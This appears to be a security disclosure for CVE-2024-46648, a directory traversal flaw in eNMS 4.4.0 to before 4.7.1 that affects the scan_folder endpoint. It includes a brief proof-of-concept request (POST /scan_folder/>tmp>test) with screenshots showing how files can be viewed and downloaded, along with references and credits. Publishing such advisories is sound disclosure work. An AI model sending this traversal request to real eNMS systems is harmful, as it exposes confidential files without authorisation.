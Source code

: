 # **CVE-2024-46648**
# Details
* **Vulnerability Type**: eNMS 4.4.0 < 4.7.1 Directory Traversal via scan_folder
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0 < 4.7.1
* **Affected Component**: /scan_folder/>[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
## ```POST /scan_folder/>[DIR]```

View and download file/directory content via ```SCAN FOLDER``` functionality:

![image](img/481.png)

```
POST /scan_folder/>tmp>test
```


![image](img/482.png)

Downloading the file found within the folder:
<br/><br/>
![image](img/483.png)
# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46648 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46648 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
